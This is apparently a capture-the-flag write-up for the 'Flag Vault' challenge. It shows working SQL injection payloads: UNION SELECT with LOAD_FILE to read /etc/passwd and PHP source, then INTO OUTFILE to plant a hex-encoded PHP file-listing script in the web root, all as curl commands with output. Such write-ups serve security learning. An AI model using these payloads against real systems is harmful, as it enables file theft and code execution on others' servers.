


# 🔐 Flag Vault (Score: 280 / Solves: 22)

## Description

> Our Flag Storage as a Service is finally launched! We know there was a little delay, but our new investor wanted us to go through a security review. But we are now 100% secure and no hacker will ever steal our client's flags.
>
> <https://flag-vault-5a37f69100fc.1753ctf.com/>

No source code.

## Flag

1753c{you_c4n_filter_but_you_c4nt_hide}

## Summary

- Read and write content by SQL Injection (SQLi)
- Restricted PHP Code execution
- Information leak by `RecursiveIteratorIterator` and `RecursiveDirectoryIterator`

## Analysis

This application seems to have the search and login functionality:



### SQLi Detection

Set single quote `'` to the search query param, it displayed SQL Syntax error:



### UNION SELECT payload

I assume SQLi occurs in the WHERE clause so I tried a UNION SELECT payload, `' UNION SELECT 1,2,3;`.
But I encountered the following error:

```console
$ curl -k https://flag-vault-5a37f69100fc.1753ctf.com/ -G --data-urlencode $'search=\' UNION SELECT 1,2,3;'
...
<b>Fatal error</b>:  Uncaught DateMalformedStringException: Failed to parse time string (2) at position 0 (2): Unexpected character in /var/www/html/index.php:23
Stack trace:
#0 /var/www/html/index.php(23): DateTime-&gt;__construct('2')
#1 /var/www/html/index.php(44): print_changelog()
#2 {main}
  thrown in <b>/var/www/html/index.php</b> on line <b>23</b><br />
...
```

The error occurred because the number `2` couldn't be converted to Datetime.
Once I changed from `2` to a datetime `2000-1-2`, fixed the error:

```console
$ curl -k https://flag-vault-5a37f69100fc.1753ctf.com/ -G --data-urlencode $'search=\' UNION SELECT 1,"2000-1-2",3;'
...<div><label>02-01-2000</label><p>3</p></div></div>
```

I attempted to use this payload to get the DB schema and table names, but found that there is a DB named `test` with no tables inside.
I was expecting to leak authentication credentials and log in, but it doesn't seem to be the case.

### Read content payload

I tried [the payload to read content of a file](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/MySQL%20Injection/#mysql-read-content-of-a-file), it was successful.

```console
$ curl -k https://flag-vault-5a37f69100fc.1753ctf.com/ -G --data-urlencode $'search=\' UNION SELECT 1,"2000-1-2",LOAD_FILE("/etc/passwd");'
...root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin
mysql:x:100:101:mysql:/var/lib/mysql:/sbin/nologin
nginx:x:101:102:nginx:/var/lib/nginx:/sbin/nologin
```

/var/www/html/access.php is as follows, and there is no login functionality.

```console
$ curl -k https://flag-vault-5a37f69100fc.1753ctf.com/ -G --data-urlencode $'search=\' UNION SELECT 1,"2000-1-2",HEX(LOAD_FILE("/var/www/html/access.php"));'
...
<label>02-01-2000</label><p>3C3F70687020696E636C75646528226865616465722E7068702229203F3E0A3C666F726D2069643D226C6F67696E466F726D22206D6574686F643D22504F5354223E0A202020203C3F70687020696628245F5345525645525B27524551554553545F4D4554484F44275D203D3D3D2027504F53542729207B203F3E0A20202020202020203C7370616E3E57726F6E6720557365726E616D65206F722050617373776F72643C2F7370616E3E0A202020203C3F706870207D203F3E0A202020203C6C6162656C3E557365726E616D653C2F6C6162656C3E3C62722F3E0A202020203C696E70757420747970653D227465787422206E616D653D226C6F67696E2220706C616365686F6C6465723D22557365726E616D6522202F3E3C62722F3E0A202020203C6C6162656C3E50617373776F72643C2F6C6162656C3E3C62722F3E0A202020203C696E70757420747970653D2270617373776F726422206E616D653D2270617373776F72642220706C616365686F6C6465723D2250617373776F726422202F3E3C62722F3E0A202020203C627574746F6E206F6E636C69636B3D226C6F67696E466F726D2E7375626D69742829223E4C6F67696E3C2F627574746F6E3E0A3C2F666F726D3E0A3C3F70687020696E636C7564652822666F6F7465722E7068702229203F3E</p>..
$ HEX=3C3F70687020696E636C75646528226865616465722E7068702229203F3E0A3C666F726D2069643D226C6F67696E466F726D22206D6574686F643D22504F5354223E0A202020203C3F70687020696628245F5345525645525B27524551554553545F4D4554484F44275D203D3D3D2027504F53542729207B203F3E0A20202020202020203C7370616E3E57726F6E6720557365726E616D65206F722050617373776F72643C2F7370616E3E0A202020203C3F706870207D203F3E0A202020203C6C6162656C3E557365726E616D653C2F6C6162656C3E3C62722F3E0A202020203C696E70757420747970653D227465787422206E616D653D226C6F67696E2220706C616365686F6C6465723D22557365726E616D6522202F3E3C62722F3E0A202020203C6C6162656C3E50617373776F72643C2F6C6162656C3E3C62722F3E0A202020203C696E70757420747970653D2270617373776F726422206E616D653D2270617373776F72642220706C616365686F6C6465723D2250617373776F726422202F3E3C62722F3E0A202020203C627574746F6E206F6E636C69636B3D226C6F67696E466F726D2E7375626D69742829223E4C6F67696E3C2F627574746F6E3E0A3C2F666F726D3E0A3C3F70687020696E636C7564652822666F6F7465722E7068702229203F3E
$ echo -n $HEX | unhex
```

Output:

```php
<?php include("header.php") ?>
<form id="loginForm" method="POST">
    <?php if($_SERVER['REQUEST_METHOD'] === 'POST') { ?>
        <span>Wrong Username or Password</span>
    <?php } ?>
    <label>Username</label><br/>
    <input type="text" name="login" placeholder="Username" /><br/>
    <label>Password</label><br/>
    <input type="password" name="password" placeholder="Password" /><br/>
    <button onclick="loginForm.submit()">Login</button>
</form>
<?php include("footer.php") ?>
```

### Write content payload

As mentioned in the Change Log on 22-02-2024, disable_functions is configured with the following settings:

```text
22-02-2024
According to pentest results some of the php functions are now disabled for security reasons: pcntl_alarm, pcntl_fork, pcntl_waitpid, pcntl_wait, pcntl_wifexited, pcntl_wifstopped, pcntl_wifsignaled, pcntl_wifcontinued, pcntl_wexitstatus, pcntl_wtermsig, pcntl_wstopsig, pcntl_signal, pcntl_signal_get_handler, pcntl_signal_dispatch, pcntl_get_last_error, pcntl_strerror, pcntl_sigprocmask, pcntl_sigwaitinfo, pcntl_sigtimedwait, pcntl_exec, pcntl_getpriority, pcntl_setpriority, pcntl_async_signals, exec, shell_exec, popen, proc_open, passthru, symlink, link, syslog, imap_open, ld, mail, system, is_file, is_dir, glob, opendir, readdir, scandir
```

I tried [a payload to write PHP code](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/MySQL%20Injection/#mysql-write-a-shell) and deploy a web shell.
However, while writing PHP code was successful, the disable_functions constraint is strict, preventing me from deploying the web shell.

As mentioned in the Change Log on 25-02-2024, there might be something in /var/www/html/backups.
I executed PHP code to list the directory and retrieve filenames.
In the end, there is a file named /var/www/html/backups/flags_1677599396982.bak, and it contains the flag.

## Solution (step-by-step)

1. Create a PHP code for directory listing using [RecursiveIteratorIterator](https://www.php.net/manual/en/class.recursiveiteratoriterator.php) and [RecursiveDirectoryIterator](https://www.php.net/manual/en/class.recursivedirectoryiterator.php)

    ```php
    <?php $iterator = new RecursiveIteratorIterator(new RecursiveDirectoryIterator($_GET[0])); foreach ($iterator as $file) { if ($file->isFile()) { echo $file->getPathname() . PHP_EOL; } }
    ```

    <details><summary>beautified</summary>

    ```php
    <?php
    $iterator = new RecursiveIteratorIterator(
        new RecursiveDirectoryIterator($_GET[0])
    );
    foreach ($iterator as $file) {
        if ($file->isFile()) {
            echo $file->getPathname() . PHP_EOL;
        }
    }
    ```

    </details>

1. Hex the PHP code

    [Output of To Hex by CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)&input=PD9waHAgJGl0ZXJhdG9yID0gbmV3IFJlY3Vyc2l2ZUl0ZXJhdG9ySXRlcmF0b3IobmV3IFJlY3Vyc2l2ZURpcmVjdG9yeUl0ZXJhdG9yKCRfR0VUWzBdKSk7IGZvcmVhY2ggKCRpdGVyYXRvciBhcyAkZmlsZSkgeyBpZiAoJGZpbGUtPmlzRmlsZSgpKSB7IGVjaG8gJGZpbGUtPmdldFBhdGhuYW1lKCkgLiBQSFBfRU9MOyB9IH0):

    ```text
    3c3f70687020246974657261746f72203d206e6577205265637572736976654974657261746f724974657261746f72286e6577205265637572736976654469726563746f72794974657261746f7228245f4745545b305d29293b20666f72656163682028246974657261746f72206173202466696c6529207b20696620282466696c652d3e697346696c65282929207b206563686f202466696c652d3e676574506174686e616d652829202e205048505f454f4c3b207d207d
    ```

1. Store the PHP code via SQLi

    ```bash
    curl $'https://flag-vault-5a37f69100fc.1753ctf.com/?search=\'+UNION+SELECT+1,"1990-01-01",0x3c3f70687020246974657261746f72203d206e6577205265637572736976654974657261746f724974657261746f72286e6577205265637572736976654469726563746f72794974657261746f7228245f4745545b305d29293b20666f72656163682028246974657261746f72206173202466696c6529207b20696620282466696c652d3e697346696c65282929207b206563686f202466696c652d3e676574506174686e616d652829202e205048505f454f4c3b207d207d+INTO+OUTFILE+"/var/www/html/foobar12.php";'
    ```

1. Execute the PHP code and directory listing /var/www/html/backups

    ```console
    $ curl $'https://flag-vault-5a37f69100fc.1753ctf.com/foobar12.php?0=/var/www/html/backups'
    ...
    /var/www/html/backups/v_kd_5.php
    /var/www/html/backups/v_kd_2.php
    /var/www/html/backups/v_kd_4.php
    /var/www/html/backups/version99999.php
    /var/www/html/backups/v_kd_3.php
    /var/www/html/backups/version99911.php
    /var/www/html/backups/v_kd_1.php
    /var/www/html/backups/flags_1677599396982.bak
    ```

1. Download the backup file using the read content payload to get flag

    ```console
    $ curl -s $'https://flag-vault-5a37f69100fc.1753ctf.com/?search=\'+UNION+SELECT+1,"1990-01-01",LOAD_FILE("/var/www/html/backups/flags_1677599396982.bak");' | grep -o '1753c{.*}'
    1753c{you_c4n_filter_but_you_c4nt_hide}
    ```

## References

- [MySQL Injection - Payloads All The Things | MYSQL Read content of a file](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/MySQL%20Injection/#mysql-read-content-of-a-file)
- [MySQL Injection - Payloads All The Things | MYSQL Write a shell](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/MySQL%20Injection/#mysql-write-a-shell)
